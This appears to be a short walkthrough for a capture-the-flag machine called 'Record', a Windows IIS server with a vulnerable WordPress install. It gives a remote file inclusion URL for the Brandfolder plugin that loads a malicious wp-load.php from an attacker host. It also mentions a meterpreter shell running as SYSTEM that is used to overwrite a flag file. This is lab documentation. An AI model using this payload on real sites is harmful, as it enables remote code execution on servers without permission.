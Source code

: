 # Record

Record is a Windows Server 2019 with IIS installed hosting a vulnerable Wordpress installation.

## Initial exploitation

The Wordpress instance has a vulnerable plugin, Brandfolder, installed in it. This plugin is vulnerable to local file inclusion. However, php.ini is configured to allow files to be included via HTTP or FTP. This means that this vulnerability can be used for remote file inclusion.

This can be exploited using this URL: `http://[ip]/wordpress/wp-content/plugins/brandfolder/callback.php?wp_abspath=http://[attacker_ip]/evil/`. The attacker IP must have a malicious PHP script called "wp-load.php" in their web root folder.

## Flag overwrite

IIS has been modified to run its application pools as SYSTEM. This is unrealistic but results in an interesting view if run with msfvenom's PHP meterpreter utility, as the user will be able to execute commands and ls directories, but not actually able to see what's in these directories. This is why the hello world blog post contains a hint for attackers to look for C:\Share (the slash ended up getting pulled out by the SQL dump, but the idea is conveyed fine). Since the attacker is running as SYSTEM, they are able to write to C:\Share\flag.txt, allowing them to plant their flag.